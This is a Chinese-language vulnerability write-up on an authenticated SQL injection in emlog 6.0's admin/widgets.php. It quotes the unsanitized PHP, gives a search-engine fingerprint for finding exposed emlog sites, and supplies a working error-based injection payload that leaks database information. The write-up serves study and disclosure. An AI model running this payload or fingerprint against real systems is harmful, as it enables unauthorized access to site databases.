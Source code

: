 # 

# emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

```
emlog 6.0
```

## 网络测绘

```
app="EMLOG"
```

## 漏洞复现

产品主页：https://github.com/emlog/emlog

![image-20220518160707766](./images/202205181607870.png)

存在漏洞的文件为 `admin/widgets.php`

![image-20220518160725472](./images/202205181607539.png)

```
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 `updateOption`

![image-20220518160743259](./images/202205181607343.png)

```
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

![image-20220518160810251](./images/202205181608308.png)

![image-20220518160826819](./images/202205181608878.png)
